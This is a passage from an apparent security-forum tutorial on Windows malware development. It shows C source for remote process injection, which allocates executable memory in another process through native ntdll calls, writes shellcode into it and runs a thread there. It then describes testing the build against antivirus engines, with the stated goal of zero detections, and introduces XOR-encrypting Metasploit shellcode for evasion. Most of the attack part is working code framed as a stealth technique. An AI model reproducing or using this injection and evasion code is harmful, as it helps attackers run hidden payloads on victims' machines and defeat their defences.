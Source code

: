 ```c  
  
    HANDLE pHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, (DWORD)newPid);  
    if (!pHandle)  
    {  
        printf("Invalid Handle\n");  
        exit(1);  
    }  
    HANDLE tHandle;  
    HINSTANCE hNtdll = LoadLibraryW(L"ntdll.dll");  
    if (!hNtdll)  
    {  
        printf("Load ntdll fail\n");  
        exit(1);  
    }  
  
    NAVM NtAllocateVirtualMemory = (NAVM)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");  
    NWVM NtWriteVirtualMemory = (NWVM)GetProcAddress(hNtdll, "NtWriteVirtualMemory");  
    NCT NtCreateThreadEx = (NCT)GetProcAddress(hNtdll, "NtCreateThreadEx");  
    void * allocAddr = NULL;  
    SIZE_T allocSize = sizeof(shellcode);  
    NTSTATUS status;  
    status = NtAllocateVirtualMemory(pHandle, &allocAddr, 0, (PULONG)&allocSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);  
    printf("status alloc: %X\n", status);  
    printf("alloc addr: %p\n", allocAddr);  
    status = NtWriteVirtualMemory(pHandle, allocAddr, shellcode, sizeof(shellcode), NULL);  
    printf("status write: %X\n", status);  
    status = NtCreateThreadEx(&tHandle, GENERIC_EXECUTE, NULL, pHandle, allocAddr, NULL, 0, 0, 0, 0, NULL);  
    printf("status exec: %X\n", status);  
  
	return 0;  
}
```

So, if you decide to upload this to antivirus engines (which I don't recommend, but the choice is yours), what can you expect? Well, you might see 27 out of 72 detections triggering alarms left and right, screaming 'MALICIOUS!' It's as if the antivirus engines are having a celebration. But here's the real challenge: we're striving for a complete absence of detections. We're not looking for a party, we're after more stealthy.

<img src="https://0x00sec.s3.amazonaws.com/optimized/3X/e/5/e50d29c626da3ccb333952fe7f45f1f0b939f1a8_2_690x189.png" alt="AAA">


Like I said msf shellcode is a give away but let's Try something else.  Time to dust off some classic techniques that never go out of style. We're diving into XOR encryption, a method you're probably familiar with when it comes to encrypting shellcode. When XOR encryption is put to work on shellcode, a key is carefully selected to XOR every byte of the shellcode. To decrypt the shellcode, you simply employ the same key to XOR each byte once more, effectively reversing the encryption process and restoring the original shellcode. However, it's worth noting that XOR encryption can be a walk in the park for attackers who know the key. If you're up for a challenge, check out the one I posted a while back [ReverseMeCipher](https://0x00sec.org/t/reverseme-cipher/35518) which involves XOR encryption. Here's a writeup to give you some insights [CipherWriteup](https://0xf00i.github.io/2023/06/12/ReverseMe-Writeup.html) As a general rule, it's often smarter to combine XOR encryption with other methods. 
